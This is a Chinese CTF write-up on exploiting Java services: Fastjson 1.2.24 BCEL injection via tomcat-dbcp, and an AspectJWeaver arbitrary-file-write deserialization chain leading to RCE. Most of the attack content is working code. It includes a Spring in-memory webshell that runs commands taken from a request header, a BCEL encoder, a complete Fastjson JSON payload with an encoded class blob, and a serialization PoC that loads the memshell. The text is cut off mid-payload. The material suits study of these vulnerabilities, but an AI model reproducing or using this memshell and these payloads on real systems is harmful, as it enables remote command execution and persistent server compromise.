                "\"_outputProperties\":{}" +
                "}\n";

        System.out.println(Payload);
    }
}
```

前面抓的GET包忘记改Content-Type了，一直没打通



# FastJsonBCEL

## #Fastjson的BCEL注入

## 源码和依赖

JsonController.java

```java
package org.polar.ctf.controller;

import com.alibaba.fastjson.JSONObject;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestBody;

@Controller
/* loaded from: FastJsonBCEL.jar:BOOT-INF/classes/org/polar/ctf/controller/JsonController.class */
public class JsonController {
    @PostMapping({"/parse"})
    public Object parseJson(@RequestBody String jsonString) {
        return JSONObject.parse(jsonString);
    }
}

```

一个JSON反序列化的口子，参数是jsonString


有fastjson依赖，版本是1.2.24，可以打fastjson反序列化



同时关注到有tomcat-dbcp依赖，可以利用fastjson打BCEL注入

## POC

内存马

```java
import java.lang.reflect.Method;
import java.util.Scanner;

public class Memshell {
    static {
        try {
            Class v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method v1 = v0.getMethod("getRequestAttributes");
            Object v2 = v1.invoke(null);
            v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            v1 = v0.getMethod("getResponse");
            Method v3 = v0.getMethod("getRequest");
            Object v4 = v1.invoke(v2);
            Object v5 = v3.invoke(v2);
            Method v6 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method v7 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            v7.setAccessible(true);
            v6.setAccessible(true);
            Object v8 = v6.invoke(v4);
            String v9 = (String) v7.invoke(v5,"Cmd");      //请求头传参
            String[] v10 = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")){
                v10[0] = "cmd";
                v10[1] = "/c";
            }else {
                v10[0] = "/bin/sh";
                v10[1] = "-c";
            }
            v10[2] = v9;
            v8.getClass().getDeclaredMethod("println",String.class).invoke(v8,(new Scanner(Runtime.getRuntime().exec(v10).getInputStream())).useDelimiter("\\A").next());
            v8.getClass().getDeclaredMethod("flush").invoke(v8);
            v8.getClass().getDeclaredMethod("clone").invoke(v8);
        } catch (Exception var11) {
            var11.getStackTrace();
        }
    }
}
```

生成恶意类的BCEL字节码

```java
import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;

public class POC {
    public static void main(String[] args) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\java\\out\\production\\java\\Memshell.class"));
        String code = Utility.encode(bytes,true);
        System.out.println(code);
    }
}
```

最终POC

```java
{
    {
      "aaa": {
              "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
              "driverClassLoader": {
                  "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
              },
              "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$cb$5b$TW$U$ff$5dH$98a$YD$C$I$f1$8d$cf$80$9a$88o$81Z$R$b1P$B$adA$v$a2m$t$c3$85$8cLf$e2$cc$E$d1$be$df$ad$7d$d9$97$ad$b5$_k$5b$db$bar$T$f9$daO$bf$ae$bbh7$ddv$d5U$bb$e9$7fP$7bn$s$d1D$b0$z$df$c7$b9$f7$9e$f7$fd$9dsn$e6$a7$bf$bf$bf$J$60$L$ae$w$a8$c4C$K$O$n$$$c8$90$8c$c3$K$8e$60X$c6$c3$SF$UH8$waT$c11$i$97$f1$88$8cGe$3c$sC$93$91$Q2$5d$c6$98$M$$a$5chL$c8H$ca0$U$9c$c0$a4$82$3a$982Rb$b5d$d82$d22N$capD$3cW$86$t$n$a3$60$K$a7$E$99Vp$gg$U4$e3q$ZO$88$f5IA$9e$92$f1$b4$8cg$q$3c$ab$60$j$9e$93$f0$3cCE$a7a$Z$de$$$86$f2H$cb$R$86$40$b7$3d$c6$Zj$fa$N$8b$PfR$J$ee$Mi$J$938$a1$7e$5b$d7$cc$p$9ac$88s$9e$Z$f0$92$86$cb$a0$f4$P$f0$94$9b$e4$a6$d9$c1$mw$eaf$dee$d9$d4F$86$da$fe$T$da$94$W35k$o$d6mj$ae$db$n$Em$M$L$8b$E$O$l7$b9$ee$c5$G$b8$97$b4$c7r$g$9bD$cc$3b$g$H$S$tH$n$t$d9$y$c8$WA$b6$K$b2M$90$ed$82$ec$Qdg$a9$5d$dcs$Mk$82$ec$ca$a7$da$u$9b$ba$d1$b9d$c1$v$cdi$a3$94$g$8a$84$3d$d3$3aO$7b$86m$91$bc$3a$eei$fa$e4$80$96$ce$dd$9b$ea$u$e1$F$aa$o$95IB$P$c1I$Q$c4$ed$8c$a3$f3$7d$86$80$a5$ba$AGT$b8S$REL$c2$8b$w$5e$c2$cb$w$5e$c1$ab$M$9d$b63$Ru$d3$o$fc$b8$a3$a5$f8$v$db$99$8c$9e$e2$89$a8n$5b$k$9f$f6$a2$O$3f$99$e1$ae$X$3d$e4$af$dd$3e$bb$d76$c7$b8$p$e1$ac$8a$d7$f0$3aC$fd$E$f7$f2$g$5d$k$5d$s$91$f18$d5$a3$e6$$$c4U$bc$817$Z$e6$df$8d$s$ddB$c5$5b8$c7$b0$fb$ff$e6$T$e7$ce$949g$d0$aa$5c$$n$da$b6$5c$82$40$b9$93$Z$c3$S$Rx$3a$ea$fa$b6w$7c$U$94$xIy$d81$3c$ee$a8x$5bd$ba$ba$d4$m$e9y$e9h$_$91$d2$e8$bea$_$d7$I$93$92$db$f9uU$f1$O$de$r$9d$3ek$9c$3b$d4$90$a7$Z$q$db$8dZt$3d$J$ef$a9x$l$e7U$7c$80$P$a95$86$fb$GU$5c$c0G$b4$d5Sc$d4E1$9d$94c$J$c3$8a$b9I$3an$d0U$5c$c4$c7$c4$T$Qy$a6Em$9d$L$97$f1$M3$W$d75$cb$Se$f9D$c5$a7$f8L$c5$e7$b8$q$e1$L$V$97$f1$a5$u$feW$e4$e1X$97$8a$afqE$c57$o$60p$dc$cc$I$c7A$dd$b4$z$C$a0n$8e$b6S$f1$z$be$a3q$w$f4$SC$d3$bd$e6$a5$e4$f2CI$87$Q$a1$s$d43$8e$c3$z$afp$ae$8f$b4$f4$df$adE$ad$dd$40$Q$e6$bb$x$d7$x$fd$b6$Pg$b8D$bdH$ql$e6$U$Q$d4$smr$i$wad$f6$a0$cd$f2$d8$e1$97$b0p$8b$dds$d8$8c$ce$b2i$f9$b7w$a3$c2$b0$a6$ecI$82tgd$f6$e31$3a$9b$d52$d7$TSK9$ed$e5$ba$a99$7c$ac$90$5b$b5$cb$bd$$$5d$e7$aek$f8O_$e4$a8x$_$8b$bb$ee$b4$eb$f1$94$3f$I$H$j$3b$cd$j$d1rk$fe$D$87$dboP$95g$lN$93Q$b7$sF$a2$b4Z$b7$95d1$8f$9aa$R$c0$8b$8a$jw$t5$t$$$a6$c2$d2yG$cbQR$Ue$f5$xQ7$bb$92$j$85$fe$cd$b1$Oe$y$cfH$V$86$b6ph$u1$cb$b3$c90$c0$a79MG$q2$c7KZlA$Q$I$b4JC$e5$99$M$f3$uT$9f$95$cexd$c95B$ad$b1$Q$ce$b0cE$C2o$8a$cc$v$Q$e8$ab$Z$97$ef$e5$a6$91$So$H$c3$da$7bc$5d$3c$a8$e2$S$W$f5$3b$V$95$b2$c8$3d$edC$8e$a6$d3$9d$97GZJoU$Q$f5$98$3cE$b3$d4A$3f$a2$h$e8$f7V$fc$95$81$89$87$9d$e8F$3a$89$95$d1$gl$bd$Ov$z$tn$pZ$91c$G$b0$89$a8$ea$x$603$7d$r$A2$b6$W$8c$cb$ae$92$cb$w$80$e93$u$cb$a2$3c$U$c8$o$b8$bf5TQ$7e$DR$Wr$ff$3aF$bb$ca$y$94$81$bcB$95$af$a0$W$UZC$d5$f9$ed$e0$ba$f5y$dd$f6$c0$86$db$db$60$den$k$d9$85j$7c$d5$f9$ed$Vyn$ad$e0$86$C$c4$j$v$P$d5$c5$85H$KK$94D$7d$b8$c2$a7$e1$40$c1$93$i$96$c2AR$ad$q$d5$GRU$7eD$5d$7be$c5$N$a2Jh$c1$M$g$b3h$K$85$b3Xx$B$a1$b0R$kZ$U$P$x$81$d0$e2$f8$V$d4$88$e3$92$dcq$v$d1$60$b82$k$96$b3X$WZ$5e$i9$y$fb$ce$7f$40$f3$c8$MV$84$95$yVf$b1$ea$3aV$87$d6d$b16$8b$88$I$3a$ec$5b$b6$e4o$S$96$f3$e9$e5$f9$ad$b3$f8WP$b9$bf5$8b$f5$c3$d7D$R$d8$I$3bF$l$40$e5$b9$S9XLT$a2$f2$c8h$a4B4C$a1$gWa$Hq$baQ$8dA$cc$c3$Ij$60c$3e$ce$a2$W$e7$Q$c2y$fa$I$bb$8cz$cc$a0$B7$b1$A$3f$93$e5$afh$c2oX$88$df$b1$I$7f$60$J$fe$c2R$d6$82e$ac$L$cb$d9$IVR$c4fv$i$xX$C$abr$edp$86$fc$abl$A$db$b0$9dN$8dl$PE$dcI$d95$b3$jhG$H5P7$5b$80N$e2$95c$90U$e1$3e$e2$F0B$e9$ef$a2$5d$90$f2$f9$T$f7$93$b4$82$b2$fa$F$bbi$tQNYt$91T$a6$cc$$a$P$e5_I$f9$5d$c4$5e$f4$40$a1$e8A$ec$c3$D$U$ad$97$fe$b7$np$8b$S$ae$92$d0$t$e1A$J$fb$L$d4$df$f8$fb$7e$J$D$40$d5$zB$89$60$930$Y$a4$M$P$e4$da$fb$e0$3f$d6$f9d$8f$f3$K$A$A
"
        }
    }:"bbb"
}
```


# 一写一个不吱声

## #AspectJWeaver任意文件写入

```java
【2024秋季个人挑战赛】 clesses，你也许需要知道$JAVA_HOME? Java反序列化漏洞+特殊情况下的springboot任意文件写rce
```

看com.polar.ctf.controller.ReadController控制器

```java
package com.polar.ctf.controller;

import com.polar.ctf.bean.UserBean;
import com.polar.ctf.util.Tools;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.PostMapping;

@Controller
/* loaded from: aspectjweaver.jar:BOOT-INF/classes/com/polar/ctf/controller/ReadController.class */
public class ReadController {
    @PostMapping({"/read"})
    public UserBean getUserObj(String obj) throws Exception {
        byte[] Bytes = Tools.base64Decode(obj);
        return (UserBean) Tools.deserialize(Bytes);
    }
}
```

读取obj参数并进行base64解码和反序列化操作，还做了一个强制类型转换，deserialize就是对反序列化逻辑的封装

然后看依赖



关注到有一个 aspectjweaver-1.9.5.jar ，这个依赖是可以做任意文件写入的，但是需要结合CC链

### AspectJWeaver漏洞分析

漏洞点 `org.aspectj.weaver.tools.cache.SimpleCache`中内部类`StoreableCachingMap` 的 put 函数

```java
	private static final String SAME_BYTES_STRING = "IDEM";
	private static final byte[] SAME_BYTES = SAME_BYTES_STRING.getBytes();

		@Override
		public Object put(Object key, Object value) {
			try {
				String path = null;
				byte[] valueBytes = (byte[]) value;
				
				if (Arrays.equals(valueBytes, SAME_BYTES)) {
					path = SAME_BYTES_STRING;
				} else {
					path = writeToPath((String) key, valueBytes);
				}
				Object result = super.put(key, path);
				storeMap();
				return result;
			} catch (IOException e) {
				trace.error("Error inserting in cache: key:"+key.toString() + "; value:"+value.toString(), e);
				Dump.dumpWithException(e);
			}
			return null;
		}
```

这里会根据valueBytes是否包含SAME_BYTES来确定path路径的值，可能是`IDEM`或者是`writeToPath`函数的返回值，跟进一下writeToPath函数

```java
		private String writeToPath(String key, byte[] bytes) throws IOException {
			String fullPath = folder + File.separator + key;
			FileOutputStream fos = new FileOutputStream(fullPath);
			fos.write(bytes);
			fos.flush();
			fos.close();
			return fullPath;
		}
```

这里的话就是一个任意文件写入的操作，其中key就是文件名，valueBytes就是需要写入文件的内容，最后会将完整的文件路径返回

在path赋值后会有一个调用父类put的操作，会将文件名和保存路径添加到映射中

然后看看folder是如何赋值的



构造函数中有folder的赋值，并且StoreableCachingMap是继承于HashMap的

但是这里并没有CC的依赖，我们该如何去触发put方法呢？

### AspectJWeaver触发put

在源码中其实给了一个UserBean的JavaBean，其中的readObject方法

```java
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        HashMap<String, byte[]> a = (HashMap) gf.get("obj", (Object) null);
        String name = (String) gf.get("name", (Object) null);
        String age = (String) gf.get("age", (Object) null);
        if (a == null) {
            this.obj = null;
            return;
        }
        try {
            a.put(name, Tools.base64Decode(age));
        } catch (Exception var7) {
            var7.printStackTrace();
        }
    }
```

这里就有一个put的操作，a是从obj中读取的HashMap对象，而name就是文件名，age的内容就是需要写入文件的内容

现在能触发任意文件读写了，但是依赖里面没有解析jsp的tomcat依赖，没法直接写jsp去打，直接就尬住了

目前还有一个问题是我们该写什么文件？把文件写在哪里呢？

### 文件该写到哪里

去看了一下官方的视频wp：[【WEB】一写一个不吱声_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1GVtBedEpo/?p=11&share_source=copy_web&vd_source=a01988bb221cdc08d2e6f6b584c9b4e0)

结合一开始的提示，我们需要知道`$JAVA_HOME`的信息，然后启动环境后在源码中可以看到一个提示

```html
<!--
5bCPVOWcqOWtpuS5oEpBVkHnmoTml7blgJnpgYfliLDkuobkuIDkuKrpl67popjvvJpTcHJpbmdCb29055qE5Lu75oSP5paH5Lu25YaZ5aaC5L2V5omN6IO9UkNF77yfCuaIkeWcqOacjeWKoeWZqOafkOS4quWcsOaWueWIm+W7uuS6huS4gOS4quaWh++8geS7tu+8geWkue+8ge+8jOeEtuWQjuWcqOacjeWKoeWZqOS4iumDqOe9suS6hui/meS4qkpBVkHpobnnm67vvIzlsI9U6K+06L+Z5LiqSkFWQemhueebruiZveeEtuacieWPjeW6j+WIl+WMlua8j+a0nuS9huaYr+S9oOayoemTvuWtkOS9oOaAjuS5iOaJk++8jOaIkeS4jeS/oeS9oOiDvVJDReOAgg0KCumCo+S5iOeOsOWcqOivt+S9oOadpeivleivle+8jOaAjuS5iOaJjeiDvVJDReiuqeWwj1TkuI3lkLHlo7DlkaLvvJ8=    -->

base64解码
小T在学习JAVA的时候遇到了一个问题：SpringBoot的任意文件写如何才能RCE？
我在服务器某个地方创建了一个文！件！夹！，然后在服务器上部署了这个JAVA项目，小T说这个JAVA项目虽然有反序列化漏洞但是你没链子你怎么打，我不信你能RCE。

那么现在请你来试试，怎么才能RCE让小T不吱声呢？
```

其实可以猜到这个文件夹应该就是在`$JAVA_HOME`指向的路径下，文件夹名字是clesses，那现在的问题就是如何拿到`$JAVA_HOME`的路径信息了，我们看一下pom.xml配置文件



这里openjdk:8u102-jre是Docker镜像的一个标准命名格式，具体什么目录，我们拉取一下镜像然后看看就知道了

```java
docker run --rm openjdk:8u102-jre
```



拿到`JAVA_HOME`的内容了，结合文件名可以拼接出folder

```java
/usr/lib/jvm/java-8-openjdk-amd64/jre/clesses
```

我们可以写一个恶意字节码到这个目录下，如果我们的恶意字节码中重写了readObject方法的话，此时反序列化就会调用到该方法去执行

由于不出网，所以在readObject中需要利用BCEL的ClassLoader去打恶意类加载一个内存马

### 最终POC

内存马

```java
package com.polar.ctf;

import java.lang.reflect.Method;
import java.util.Scanner;

public class Memshell {
    static {
        try {
            Class v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method v1 = v0.getMethod("getRequestAttributes");
            Object v2 = v1.invoke(null);
            v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            v1 = v0.getMethod("getResponse");
            Method v3 = v0.getMethod("getRequest");
            Object v4 = v1.invoke(v2);
            Object v5 = v3.invoke(v2);
            Method v6 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method v7 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            v7.setAccessible(true);
            v6.setAccessible(true);
            Object v8 = v6.invoke(v4);
            String v9 = (String) v7.invoke(v5,"Cmd");      //请求头传参
            String[] v10 = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")){
                v10[0] = "cmd";
                v10[1] = "/c";
            }else {
                v10[0] = "/bin/sh";
                v10[1] = "-c";
            }
            v10[2] = v9;
            v8.getClass().getDeclaredMethod("println",String.class).invoke(v8,(new Scanner(Runtime.getRuntime().exec(v10).getInputStream())).useDelimiter("\\A").next());
            v8.getClass().getDeclaredMethod("flush").invoke(v8);
            v8.getClass().getDeclaredMethod("clone").invoke(v8);
        } catch (Exception var11) {
            var11.getStackTrace();
        }
    }
}
```

然后把内存马编码成BCEL

```java
package com.polar.ctf;

import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.nio.file.Files;
import java.nio.file.Paths;

public class POC {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\JavaSec\\out\\production\\JavaSec\\com\\polar\\ctf\\Memshell.class"));
        String code = Utility.encode(bytes,true);
        System.out.println("$$BCEL$$"+code);
    }
}
```

把编译好的BCEL字符串嵌入恶意字节码的readObject中并用com.sun.org.apache.bcel.internal.util.ClassLoader进行类加载

```java
package com.polar.ctf;

import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Method;
import java.util.Base64;

public class LoadPoc implements Serializable {
    public static void main(String[] args) throws Exception{
        try {
            Class<?> evilClass = Class.forName("com.polar.ctf.LoadPoc");
            Object evilInstance = evilClass.getDeclaredConstructor().newInstance();
            ByteArrayOutputStream btout = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(btout);
            objOut.writeObject(evilInstance);
            System.out.println(new String(Base64.getEncoder().encode(btout.toByteArray())));
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
    private void readObject(ObjectInputStream ois) throws Exception {
        String Bcel = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$d9$7b$TU$U$ff$dd6$c9L$a6SJ$d35$yBY$d3B$T$caN$8bH$v$c5$omAR$a8$a5$a0N$a7$b7$ed$d0$c9L$98$99$94$82$fb$ae$b8$e1$86$on$b8$a1$f2$c4K$e0$d3$P$3e$9f$7d$d0$X_$7d$f2I_$fc$P$c4s3$J$q4$a8$fd$be$9e$7b$efY$ee9$f7w$96$ccO$7f$7f$7f$D$c0F$5cV$Q$c6$83$K$O$o$v$c8$90$8cC$K$OcX$c6C$SF$UH8$oaT$c1Q$i$93$f1$b0$8cGd$3c$wC$931$sd$ba$8cq$Z$5c$c2$84$d0$98$941$r$c3Pp$i$d3$K$ea$60$caH$89$d5$92a$cbH$cb8$n$c3$R$fe$5c$Z$9e$84$8c$82$Z$9c$UdV$c1$v$9cV$d0$82$c7d$3c$$$d6$t$EyR$c6S2$9e$96$f0$8c$825xV$c2s$M$a1$ed$86ex$3b$Y$wc$ad$87$Z$C$3d$f68g$a8$e97$y$3e$98I$8dqgH$h3$89$T$e9$b7u$cd$3c$ac9$868$e7$99$Bo$cap$Z$9a$fbu$3b$95H$db$a6$e6$qto$o1$c0S$ee$U7$cd$$$Gy$bbn$e6$jT$cc$acc$a8$ed$3f$ae$cdh$JS$b3$s$T$3d$a6$e6$ba$5dB$d0$c1$b0$a0H$e0$f0$J$93$eb$k$dd$e3M$d9$e39$8d$f5$o$82$db$g$fb$c7$8e$93BN$b2A$90$8d$82l$Sd$b3$m$5b$E$d9$w$c8$b6R$bb$a4$e7$Y$d6$q$d9U$cetP4u$a3$e5d$c1$Z$cd$e9$a0$90$g$8a$84$bd$b3$3aO$7b$86m$91$bc$3a$e9i$fa$f4$80$96$ce$a1$40Y$95$f0$3c$e5$94$92$s$a1$97$c0eP$92v$c6$d1$f9$kC$80T$5d$80$p$$$aeS$RGB$c2$L$w$5e$c4K$w$5e$c6$x$M$dbmg2$ee$a6$85$fb$JGK$f1$93$b63$j$3f$c9$c7$e2$bamy$7c$d6$8b$3b$fcD$86$bb$5e$fc$a0$bf$f6$f8$ec$3e$db$i$e7$8e$843$w$5e$c5k$M$f5$93$dc$cbkt$7b$f4$98$b1$8c$c7$v$3b5w$m$ae$e2u$bc$c10$ffN4$e9$V$w$de$c4Y$86$9d$ff7$9e$qwf$cc$b2N$abr$b1$b8i$dbr$J$C$e5vd$M$8b$85$e3$d9$b8$eb$db$de$be$a3$a0$i$s$e5a$c7$f0$b8$a3$e2$z$R$e9$caR$83$v$cfK$c7$fb$88$94z$f7$N$fb$b8F$98$94$bc$ce$cf$ab$8a$b7$f1$O$e5$bd$t5$ce$m$d9n$dc$a2$87IxW$c5$7b8$a7$e2$7d$7c$40$c2$e1$bd$83$w$ce$e3C$da$eaB$af$o$a1$93rb$cc$b0$S$ee$U$j$dbu$V$X$f0$R$f1$E8$9eiQA$e7$ie$3c$c3L$qu$cd$b2DB$3eV$f1$J$3eU$f1$Z$$J$f8$5c$c5$X$f8R$a4$fd$x$ba$e1h$b7$8a$afqI$c57$c2ap$c2$cc$88$8b$83$bai$5b$f4$f4$ba2$F$a7$e2$5b$7c$c7$d0X$be$c5$a8$f9$ee$d67$r$m$MM9$84$M$V$a3$9eq$iny$85s$7d$ac$b5$ffN$z$w$f1$G$822_e$b9$9a$e9$b7$7dX$a3$r$eaE$oaSV$40i1i$93$e3P$wcs$hn$ce$8d$5d$7e$w$L$af$d8Y$c6ft$8eM$eb$bf$cd$8f$90a$cd$d8$d3$E$f0$b6$d8$dc$n2$3a$97$d5Zn$d4$d4RL$bb$b9N$Z$e0$e3$85$d8$aa$5d$eeu$eb$3aw$5d$c3$l$88$b1$pb$8a$WW$df$v$d7$e3$v$bf$n$O8v$9a$3b$de$v$86U$ff$81$c3$adYT$e5$d9$87$d2d$d4$a3$89$d6$u$cd$d6$z$rY$f4$a5fX$E$f0$c2$e2$8b$7b$a64$t$v$ba$c3$d2yW$eb$RR$Ui$f53Q77$93$5d$85j$ce$b1$Of$y$cfH$V$9a$b7ph$u1$cb$b3$c90$c0g9$f5J$yVf$a2$W$5b$Q$E$C$adRWy$s$c3$3cr$b5$d7Jg$3c$b2$e4$g$a1$d6Tpg$d8$89$o$B$997$c7$ca$K$E$faj$c6$e5$bb$b9i$a4$c4$MaX$7dw$ac$8b$dbV$3c$c2$a2z$a7$a4R$U$b9$R$3f$e4h$3a$bdyi$ac$b5$f4U$FQ$af$c9S$d4K$5d$f4$d3$daN$bf$c2$e2$af$CL$Mx$a2$eb$e8$qVFk$b0$ed$w$d8$95$9c$b8$83h$u$c7$Ma$3dQ$d5W$c0$G$fav$Adl$w$YW$5c$a6$x$ab$A$a6_CE$W$95$91$40$W$c1$7dm$91P$e5uHY$c8$fdk$Y$ed$c2Y$u$Dy$85$w_A$z$u$b4E$aa$f3$db$c15k$f3$ba$9d$81$f6$5b$db$60$den$k$d9Ej